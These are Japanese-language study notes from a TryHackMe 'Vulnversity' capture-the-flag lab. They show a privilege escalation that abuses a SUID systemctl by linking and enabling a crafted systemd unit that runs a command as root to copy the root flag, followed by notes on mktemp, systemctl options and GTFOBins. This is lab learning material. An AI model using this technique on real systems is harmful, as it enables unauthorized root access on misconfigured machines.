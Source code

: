 - 断念。。。-> [TryHackMe | Vulnversity - Writeup](https://tryhackme.com/resources/blog/vulnversity)を見ながら答えを確認する
  ```bash
  priv=$(mktemp).service
  echo '[Service]
  ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
  [Install]
  WantedBy=multi-user.target' > $priv

  /bin/systemctl link $priv
  Created symlink from /etc/systemd/system/tmp.u3BsWfqNDN.service to /tmp/tmp.u3BsWfqNDN.service.
  /bin/systemctl enable --now $priv
  Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.u3BsWfqNDN.service to /tmp/tmp.u3BsWfqNDN.service.

  # Capture The Flag!
  cat /opt/flag
  ```
- 学び
  - SUIDの理解
  - `mktemp` コマンド
    - /tmp/tmp.oSoIUcUO のようなファイルを作成する
  - `systemctl` のオプション
    - `systemctl link + ABSOLUTE PATH`
      - /etc/systemd/system/以下にシンボリックリンクを作成する
      - /etc/systemd/system 以下への書き込み権限がなくてもユニットを追加できる
    - `systemctl enable --now`
      - 自動起動有効化と起動を同時にできる
  - [GTFOBins](https://gtfobins.github.io/)

    Unixで利用されるバイナリの危険性を説明してくれているサイト。

    [systemctl GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) にsystemctlの危険性と攻略法が記載されていた。